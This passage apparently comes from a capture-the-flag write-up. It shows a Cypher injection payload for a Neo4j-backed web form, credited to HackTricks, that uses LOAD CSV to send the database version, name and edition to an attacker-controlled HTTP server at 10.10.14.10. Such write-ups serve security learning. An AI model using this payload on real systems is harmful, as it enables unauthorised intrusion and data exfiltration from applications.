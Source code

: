 ![](assets/request_post.png)

From Hacktricks, there a query to get server version :

```shell
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.10/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

we can insert this query in the web form, and have a HTTP server
